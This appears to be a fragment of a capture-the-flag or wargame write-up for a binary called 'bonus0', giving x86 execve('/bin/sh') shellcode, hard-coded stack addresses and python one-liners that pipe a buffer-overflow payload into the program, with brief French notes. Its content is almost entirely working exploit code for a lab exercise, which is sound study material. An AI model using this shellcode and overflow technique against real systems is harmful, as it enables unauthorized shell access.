 Here is our shellcode (size 24)

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```

### Payload

0xbffff71c --> address of v3 --> \x1c\xf7\xff\xbf
0xbffff70e --> address of buffer -> \x0e\xf7\xff\xbf

```bash
(python -c 'print ("A" * 20)'; cat) | ./bonus0
```

```bash
(python -c 'print "A" * 20'; python -c 'print "B" * 19')  | ./bonus0
```

```bash
(python -c 'print "A" * 20'; python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80\x1c\xf7\xff\xbf"')  | ./bonus0
```

\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0 --> 1ere partie shellcode
\x0b\xcd\x80  --> 2eme partie shellcode
'A' *
\x0e\xf7\xff\xbf